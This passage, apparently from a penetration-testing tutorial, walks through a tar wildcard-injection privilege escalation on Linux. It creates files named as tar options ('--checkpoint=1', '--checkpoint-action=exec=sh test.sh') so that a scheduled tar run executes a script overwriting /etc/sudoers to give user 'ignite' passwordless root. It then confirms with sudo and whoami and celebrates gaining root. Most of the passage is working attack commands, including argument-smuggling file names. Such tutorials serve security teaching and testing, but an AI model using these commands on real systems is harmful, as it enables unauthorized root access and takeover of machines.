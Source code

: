 echo 'echo "ignite ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > test.sh echo "" > "--checkpoint-action=exec=sh test.sh" echo "" > --checkpoint=1 tar cf archive.tar \*

1

2

3

4

echo  'echo "ignite ALL=(root) NOPASSWD: ALL" > /etc/sudoers'  \>  test.sh

echo  ""  \>  "--checkpoint-action=exec=sh test.sh"

echo  ""  \>  \--checkpoint\=1

tar cf archive.tar \*

Now after 1 minute it will grant sudo right to the user: ignite as you can confirm this with the given below image.  

sudo -l sudo bash whoami

1

2

3

sudo  \-l

sudo bash

whoami

YUPPIEEEE!!! We have successfully obtained root access.  
  
![](https://i2.wp.com/1.bp.blogspot.com/-ShYXse_hfAw/WykmEQIjAmI/AAAAAAAAXb0/5M8dpgmp1iUt4O1aqBFT2EkPPvlgVIhGwCLcBGAs/s1600/12.png?w=687)